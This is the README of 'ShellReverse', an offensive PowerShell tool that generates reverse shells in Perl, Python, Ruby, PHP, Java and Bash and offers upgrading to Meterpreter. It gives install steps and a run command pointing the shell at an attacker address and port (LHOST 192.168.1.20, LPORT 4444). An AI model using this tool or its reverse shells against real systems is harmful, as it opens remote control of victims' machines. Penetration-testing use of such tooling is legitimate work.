 # ShellReverse

# Install in Debian or Kali

    git clone https://github.com/Hackplayers/ShellReverse
    cd shellreverse
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55  
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell
    ./shell-reverse.ps1 -LHOST 192.168.1.20 -LPORT 4444 -

# Languaje
&nbsp;&nbsp;&nbsp;**Perl**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Python**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Python3**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Ruby**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**PHP**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Java**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Bash**&nbsp;&nbsp;  
  

# Video Example
![](https://github.com/cybervaca/ShellReverse/blob/master/example.gif)

# AutoUpdate to Meterpreter
